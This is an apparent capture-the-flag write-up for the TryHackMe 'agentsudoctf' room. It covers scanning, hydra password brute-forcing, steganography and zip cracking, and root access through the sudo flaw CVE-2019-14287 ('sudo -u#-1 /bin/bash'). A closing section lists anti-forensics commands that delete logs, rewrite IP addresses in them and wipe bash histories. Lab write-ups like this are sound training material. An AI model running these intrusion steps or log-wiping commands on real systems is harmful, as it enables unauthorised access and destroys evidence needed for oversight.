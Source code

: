```yaml
---
title: "THM: agentsudoctf"
author: r0bsec
date: 2022-06-22 12:00:00 -500
category: ["CTF", "TryHackMe"]
tags: [ctf,nmap,nikto,gobuster,dirbuster,steganography,steghide,binwalk,john,zip2john,apache,ubuntu,CVE-2019–14287]
---
```


URL: [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf) [Easy]

## Reconnaissance

Description of the room:

> You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```nmap
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```


### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```gobuster
/index.php            (Status: 200) [Size: 218]
```

### Running: `nikto`

Ran the following:

> `nikto -h xxx.xxx.xxx.xxx`

Interesting info found:

```nikto
--Nothing really--
```


## Gaining Access

There isn't anything too interesting from scanning. We navigate to the web server running on this server and see:

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

Per the instructions on the main web page, you can pass in your Agent name as the `User-Agent` on the web page to gain access. Since it was signed by "R", we can systematically try other letters. For example:

```bash
curl -H "User-Agent: C" -L http://10.10.13.116
```

From that, we can discern the username of "C". Since both SSH and FTP are services, let's try hydra against FTP with:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.13.116 ftp
```

Sure enough, from that, we capture the FTP password for user `chris`. 


### Unprivileged Access

When we log into FTP as Chris, we have 3 files:

- cute-alien.jpg
- cutie.png
- To-agentJ.txt

We find out from the text file:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture 
inside your directory. Your login password is somehow stored in the fake 
picture. It shouldn't be a problem for you.

From,
Agent C
```

By running:

```bash
steghide info ./cute-alien.jpg
```

We find that `cute-alien.jpg` has password-protected data in it. Using binwalk:

```bash
binwalk ./cutie.png 
```

We can see there is a .zip file embedded within:

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

So, we can do a:

```bash
binwalk -e ./cutie.png
```

to extract (`-e`) the hidden `.zip` file. That puts the embedded data into a `_cutie.png.extracted` subfolder. Within there, we have some files:

```bash
365
365.zlib
8702.zip
To_agentR.txt
```
The .zip file seems to be password-protected, so we can send that to John to crack:

```bash
zip2john ./8702.zip > ./8702.zip.hash
```

and then:

```bash
john ./8702.zip.hash
```

and very quickly, John finishes with the `.zip` file password:

```
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
alien            (8702.zip/To_agentR.txt)   
```

---

Now that we have the `.zip` file password, we can unzip the contents:

```bash
7z e ./8702.zip
```

We enter the password and `To_agentR.txt` gets extracted. The contents give us a perhaps-encoded word:

```text
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

Using a website like [https://www.base64decode.org/](https://www.base64decode.org/), we can pass in the value `QXJlYTUx` and get the value `Area51`.

We might assume that is the steg password for the other image. We try that:

```bash
steghide extract -sf ./cute-alien.jpg
```

That wrote out it's contents to `message.txt` which is addressed to `james` and appears to have his password. 

Let's try that username/password over SSH - and sure-enough, we can log in and get the user flag, and the picture for the bonus question.

### Privilege Escalation

We check to see if have any sudo privileges with `sudo -l` and we see an odd:

```
(ALL, !root) /bin/bash
```

By looking this up on the internet, we find an associated [CVE-2019–14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

To run the exploit, instead of the intuitive:

```bash
sudo /bin/bash
```

Per the CVE writeups, you'd do the following to get a root prompt:

```bash
sudo -u#-1 /bin/bash
```


## Maintaining Access

TBD

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: [<kbd>CTRL</kbd>+<kbd>SHFT</kbd>+<kbd>I</kbd>]